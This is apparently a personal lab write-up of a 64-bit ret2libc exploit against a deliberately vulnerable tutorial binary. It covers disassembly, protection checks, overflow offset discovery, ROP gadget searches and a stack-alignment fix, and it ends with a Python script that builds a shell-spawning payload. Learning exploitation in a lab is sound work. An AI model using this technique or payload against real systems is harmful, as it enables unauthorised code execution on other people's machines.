 ```yaml
---
title: Exploiting NX
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](Binary can be found here)

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/r2libc$ objdump -M intel -d ./ret2libc
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`

that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/r2libc$ checksec --file ret2libc
[*] '/home/devel/challenges/r2libc/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


devel@kub:~/challenges/r2libc$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

### Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure.

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### ROP

NX is enabled so I need to use ROP. I'm going to abuse libc to execute a shell with `system()`

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7e16410 <system>
```

System takes a single parameter, a string containing the path of what to run. 

```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
ret2libc : 0x40203f --> 0x68732f6e69622f ('/bin/sh')
ret2libc : 0x40303f --> 0x68732f6e69622f ('/bin/sh')
    libc : 0x7ffff7f775aa --> 0x68732f6e69622f ('/bin/sh')
```

Finally, we need to put the `/bin/sh` string into RDI. For that we need a ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "% ?di"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ret2libc
0x000000000040111e: adc dword ptr [rax], edi; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010dc: adc edi, dword ptr [rax]; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010de: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401120: add byte ptr [rax], al; add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e0: add byte ptr [rax], al; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401122: add byte ptr [rax], al; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b0: call 0x1070; lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010db: je 0x10f0; mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x00000000004010e5: je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111d: je 0x1130; mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x0000000000401127: je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b6: lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004011b5: lea rdi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010dd: mov eax, 0; test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x000000000040111f: mov eax, 0; test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004011b1: mov ebx, 0x48fffffe; lea edi, [rip + 0xe63]; call 0x1060; mov eax, 0; leave; ret; 
0x00000000004010b2: mov edi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e7: mov edi, 0x404040; jmp rax; 
0x00000000004010b1: mov rdi, 0x4011c8; call qword ptr [rip + 0x2f32]; hlt; nop; endbr64; ret; 
0x00000000004010e6: or dword ptr [rdi + 0x404040], edi; jmp rax; 
0x0000000000401263: pop rdi; ret; 
0x00000000004010e3: test eax, eax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401125: test eax, eax; je 0x1130; mov edi, 0x404040; jmp rax; 
0x00000000004010e2: test rax, rax; je 0x10f0; mov edi, 0x404040; jmp rax; 
0x0000000000401124: test rax, rax; je 0x1130; mov edi, 0x404040; jmp rax; 
```

### stack alignment

When running my exploit, I kept getting a crash on the following

`movaps XMMWORD PTR [rsp+0x40],xmm0`

[https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul](How to fix segfault)

tl;dr stack alignment MUST be 16 bytes. My shell code was 12. Pad it with a single ret ROP gadget

```bash
devel@kub:~/challenges/r2libc$ ropper --file ret2libc --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: ret2libc
0x000000000040101a: ret; 
```


### python

```py
#!/usr/bin/python3
import struct

buflen = 104

payload = b"A" * buflen

#payload += struct.pack("<Q", 0x00000000004006a3)   # pop rdi; ret
#payload += struct.pack("<Q", 0x4006ff)             # ptr to "/bin/sh"
#payload += struct.pack("<Q", 0x7ffff7e16410)       # address of system()

payload += struct.pack("<Q", 0x000000000040101a)    # alignment ret; 
payload += struct.pack("<Q", 0x0000000000401263)    # pop rdi; ret 
payload += struct.pack("<Q", 0x40303f)              # ptr to "/bin/sh"
payload += struct.pack("<Q", 0x7ffff7e16410)        # address of system()


f = open("in.txt", "wb")
f.write(payload)
f.close()
```

